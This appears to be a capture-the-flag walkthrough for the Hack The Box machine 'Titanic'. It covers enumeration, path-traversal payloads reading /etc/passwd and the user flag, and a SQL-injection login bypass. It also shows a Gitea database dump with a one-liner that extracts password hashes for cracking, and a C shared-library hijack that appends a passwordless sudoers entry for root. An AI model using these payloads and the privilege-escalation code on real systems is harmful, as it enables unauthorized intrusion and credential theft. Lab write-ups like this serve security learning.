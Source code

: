 # 🚢Titanic

## 🧠Summary 
> Using basics of web enumeration to find the vulnerabale subdomain which leads access to the
> machine using SSH(secure shell). In the machine found a vulnerable file identify_image.sh, So introduced a
> C program for gaining root access
  ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
## 🔍Step 1 (Nmap scan)
- Did an nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- Note: Using the sV flag is for version detection which is always useful because can search in the web for past vulnareblity of that version
- The result of the nmap scan is in this link 👉 [nmap_scan_result](./analysed_data/nmap_scan.txt)
## 💡Step 2 (Web analysis)
- Before starting analysis updated the etc/hosts
  ```bash
  sudo echo "{ip address}    titanic.htb" > etc/hosts
  ```
- Registred in the site to see output and found out that you can directly download things from the site
## 💻Step 3 (Enumeration)
- Used a custom made python script and wordlist that aling mostly to tourism and booking site
- custom python script 👉 [enumeration.py](./custom_tool/enumeration.py)
- Found out that 2 addtional webpage are present that is the book and download
- Did some manual enumeration using the earlier data and found out that /download?ticket= is an endpoint
- For further analysis used burp suite and dirsearch and conformed that there was subdomain called dev.titanic.htb (☠️note: unfortuanately couldn't capture the records of burp suite)
- While doing the analysis using burp suite in the newly found endpoint used some payloads like ../../../etc/passwd and found a file
- the file got from the payload 👉 [etc/passwd.txt](./analysed_data/ticket.txt)
- Notice that there is a user called as developer
- To get the user flag we use a payload ../../../home/developer/user.txt to obtain the flag
- In the dev.titanic.htb subdomian we found the application used is gitea to upload 2 git repoaitory
## 📖Step 4 (Info gathering)
- I entered gitea using the username developer we found and then tried to login but no password
    - tried:
    >  1) guess some random password (failed).
    >  2) Did some simple sql injection using the payload developer'# (success)
- Then analysed the git hub repose and found the path way to the database
- Then downloaded the database using the endpoint download?ticket=
- The obtained database 👉 [database](./analysed_data/developer_db.db)
## 🔐Step 5 (Brute-forcing)
- Using the bash command
  ```bash
  sqlite3 {name_of_database} "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee hashes.txt
  ```
- The above shown output will be saved to an hashes.txt file 👉 [hashes.txt](./analysed_data/hashes.txt)
- As we analyze the hash found out that this is a pkbdf2 hash with salt and has undergone 50000 iteration, so i wrote a custom python program and used rockyou.txt
- custom python program 👉 [hash_decode.py](./custom_tool/hash_decode.py)
## Step 6 (Foothold)
- Using the username developer and the cracked password we login to the machine using SSH
  ```bash
  ssh developer@titanic.htb
  ```
- After that searched through the files to find identify_images.sh which is using imageMagick to identify picture and write it in log files quickly
- So in the directory /opt/app/static/assets/images/ I introduced a new file exploit.c and wrote the above c code
- I compiled and run the code as
  ```bash
  gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
  ```
- Then executed sudo su and finally I became root
- I got the root flag in the root directory using
  ```bash
  cat root/root.txt
  ```
  
